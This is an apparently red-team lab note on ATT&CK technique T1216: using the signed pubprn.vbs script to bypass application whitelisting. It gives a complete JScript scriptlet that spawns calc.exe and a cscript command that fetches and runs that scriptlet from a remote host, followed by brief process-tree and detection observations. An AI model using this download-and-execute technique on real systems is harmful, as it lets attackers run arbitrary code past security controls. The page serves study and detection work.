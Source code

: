 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch a calc.exe. First of, the xml that will be executed by the script:

{% code-tabs %}
{% code-tabs-item title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../.gitbook/assets/pubprn-csript.png)

![](../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can give be useful in detecting the script being abused:

![](../.gitbook/assets/pubprn-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1216\",\"type\":\"link\",\"title\":\"Signed Script Proxy Execution - ATT&CK for Enterprise\"}" %}

